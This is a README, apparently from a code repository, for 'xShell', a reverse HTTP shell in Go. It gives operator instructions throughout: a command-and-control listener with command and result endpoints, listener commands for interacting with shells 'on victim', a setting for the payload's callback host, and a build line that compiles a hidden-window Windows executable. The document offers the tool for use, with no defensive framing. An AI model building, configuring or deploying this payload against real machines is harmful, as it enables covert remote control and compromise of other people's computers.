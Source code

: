 <div align="center">
  <h1>xShell</h1>
  <br/>
  <p><i>A simple reverse http shell written in golang</i></p>
  <br/>
</div>

# Usage

### Change listener port
In c2/httpC2.go:
```go
func main() {
	http.HandleFunc("/shellID", shellIDHandler)
	http.HandleFunc("/command", getCommandHandler)
	http.HandleFunc("/result", postResultHandler)

	go func() {
		http.ListenAndServe(":80", nil) // change port here
	}()

	go cleanOldShells()
	readUserCommand()
}
```

### Start listener
```sh
go run c2/httpC2.go
```
If you want to listener on port 80 or 443 you must use sudo:
```sh
sudo go run c2/httpC2.go
```

### Listener commands
```
shells - list all active shells
shell <shell_name> - interact with specifc shell
quit - quit shell (closes shell on victim)
exit - return to main menu (shell continues to run)
```

### Set call back host
In payload/xShell.go:
```go
const ServerAddr = "127.0.0.1:80" // change this to your servers IP/Host
```

### Build shell
```sh
GOOS=windows GOARCH=amd64 go build -ldflags -H=windowsgui -o xShell.exe payload/xShell.go
```